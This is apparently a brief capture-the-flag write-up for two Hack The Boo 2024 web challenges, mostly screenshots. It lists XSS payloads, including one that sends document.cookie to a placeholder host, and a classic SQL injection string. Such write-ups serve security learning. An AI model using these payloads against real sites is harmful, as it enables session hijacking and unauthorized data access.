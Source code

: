 # Hack The Boo 2024 Write-Up

## WEB

### Phantom's Script

![image](https://github.com/user-attachments/assets/1d5b113b-039a-46ba-8470-0c8688fd03c4)

Basic XSS Payload:

`<script>alert('Boo!');</script>`

`<script>fetch('[host]')</script>`

More Diabolical Payload:

`<img src=x onerror="alert('Boo!')">`

`<img src=x onerror="fetch('[HOST]' + document.cookie)" />`

Use XSS payload `<script>fetch('[host]')</script>`

![image](https://github.com/user-attachments/assets/3bd034b8-1f32-4c04-9ebe-b96564676f02)

### Unholy Union

![image](https://github.com/user-attachments/assets/65afbf7a-4d21-431c-98af-08696dc38732)

    ' OR '1'='1

![image](https://github.com/user-attachments/assets/8cd95fa3-2dc9-42a9-ae86-766d1c988a39)

